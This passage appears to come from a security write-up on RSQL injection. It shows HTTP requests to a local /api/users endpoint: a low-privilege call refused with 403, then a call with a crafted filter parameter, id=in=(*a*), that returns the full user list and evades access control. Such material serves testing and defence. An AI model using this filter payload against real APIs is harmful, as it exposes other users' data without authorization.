 ```
    }
}
```
## Authorization evasion
In this scenario, we start from a user with a basic role and in which we do not have privileged permissions (e.g. administrator) to access the list of all users registered in the database:
### Request
```
GET /api/users HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: application/vnd.api+json
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/vnd.api+json
Authorization: Bearer eyJhb.................
Origin: https://localhost:3000
Connection: keep-alive
Referer: https://localhost:3000/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-site
```
### Response
```
HTTP/1.1 403 
Date: Sat, 22 Mar 2025 14:40:07 GMT
Content-Length: 0
Connection: keep-alive
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
Access-Control-Allow-Origin: *
```

Again we make use of the filters and special operators that will allow us an alternative way to obtain the information of the users and evading the access control.
For example, filter by those *users* that contain the letter “*a*” in their user *ID*:
### Request
```
GET /api/users?filter[users]=id=in=(*a*) HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: application/vnd.api+json
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/vnd.api+json
Authorization: Bearer eyJhb.................
Origin: https://localhost:3000
Connection: keep-alive
Referer: https://localhost:3000/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-site
```
### Response
```
HTTP/1.1 200 
Date: Sat, 22 Mar 2025 14:43:28 GMT
Content-Type: application/vnd.api+json;charset=UTF-8
Content-Length: 1434192
```